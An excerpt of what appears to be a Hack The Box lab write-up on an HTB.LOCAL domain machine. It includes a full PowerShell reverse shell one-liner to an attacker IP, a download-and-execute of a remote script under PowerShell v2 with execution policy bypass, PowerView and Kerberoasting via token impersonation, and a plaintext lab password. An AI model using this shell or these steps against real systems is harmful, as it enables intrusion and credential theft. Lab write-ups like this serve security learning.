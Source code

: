 <img src="https://i.imgur.com/RHpLtAp.png"/>

We can see that a rule is being used if any rule  wasn't being used it would have shown us blank in the rule section ,  so looking for Applocker bypasses I found a github repo for generating metasploiy payloads that can bypass Applocker

https://github.com/GreatSCT/GreatSCT

Setting up GreatSCT

<img src="https://i.imgur.com/K9j9a4i.png"/>

I gaveup on this tool as it was taking a long time to install and realized that we can still run powershell cmdlets by first gettting a revershell through powershell version 2

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.55",3333);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

```powershell
Invoke-WebRequest http://10.10.14.55:2222/powershell_rev.ps1 -outfile shell.ps1

powershell -version 2 -nop -nop -noexit -exec bypass -c '.\shell.ps1'
```

<img src="https://i.imgur.com/kI0rj4Y.png"/>

We can verify it as well that we have a reverse shell as powershell version 2

<img src="https://i.imgur.com/cxk7A1W.png"/>

Now when we try to load powerview through IEX and run cmdlets they will get executed

<img src="https://i.imgur.com/8mqGJFe.png"/>

First I tried to use `AutoKerberoast.ps1` to get TGS for mrlky but it failed 

<img src="https://i.imgur.com/gn5qSAs.png"/>

Using powerview's `Invoke-UserImpersonation` cmdlet it impersontated mrlky token so that we can then perform keberoast to get TGS

https://powersploit.readthedocs.io/en/latest/Recon/Invoke-UserImpersonation/

```powershell
$Password = ConvertTo-SecureString 'Ashare1972' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\amanda', $Password)
```

<img src="https://i.imgur.com/UQjM5kk.png"/>
